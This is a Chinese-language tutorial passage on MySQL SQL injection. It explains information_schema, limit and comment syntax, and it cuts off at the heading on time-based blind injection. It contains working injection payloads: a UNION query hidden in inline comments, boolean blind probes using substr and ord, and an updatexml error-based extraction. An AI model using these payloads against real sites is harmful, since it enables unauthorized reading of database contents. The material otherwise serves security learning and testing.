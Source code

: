### 1.SQL注入

#### information_schema数据库

在该库中，有三个重要的表名，分别是SCHEMATA、TABLES和COLUMNS。

SCHEMATA表存储该用户创建的所有数据库的库名，该表中记录数据库库名的字段名为SCHEMA_NAME。

TABLES表存储该用户创建的所有数据库的库名和表名，该表中记录数据库库名和表名的字段名分别为TABLE_SCHEMA和TABLE_NAME。

COLUMNS表存储该用户创建的所有数据库的库名、表名和字段名，该表中记录数据库库名、表名和字段名的字段名为TABLE_SCHEMA、TABLE_NAME和COLUMN_NAME。

#### limit的用法

limit的使用格式为limit m,n，其中m是指记录开始的位置，从0开始，表示第1条记录，n是指取n条记录。

#### 注释和内联注释

在mysql中，常见的注释符的表达方式：#或--空格或/**/。

内联注释的形式：/*! code */。内联注释可以用于整个SQL语句中用来执行我们的SQL语句，例如：

```php
index.php?id=-15 /*!UNION*/ /*!SELECT*/ 1,2,3
```

#### 布尔注入的用法

可以通过数据库操作函数判断数据库名长度、字符、字段名和条目内容等信息。

```php
?id = 1' and length(database()) >= 5#
```

利用截取函数获取数据库的库名，与limit不同的是，substr函数从1开始排序，可以使用Burp功能或python自动化脚本实施爆破。

```php
?id = 1' and substr(database(),1,1) = 't'#
```

对于一些过滤手段，可以使用ASCII码进行查询，如s的ASCII码是115，转换函数为ord，可以修改语句为

```php
?id = 1' and ord(substr(database(),1,1)) = 115#
```

用查询语句替换database()即可爆破其他内容。

```php
?id = 1' and substr((select table_name from information_schema.tables where table_schema = 'sql' limit 0,1),1,1) = 'e'#
```

#### 报错注入的用法

```php
' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema = 'test' limit 0,1),0x7e),1)#
```

#### 时间盲注的用法

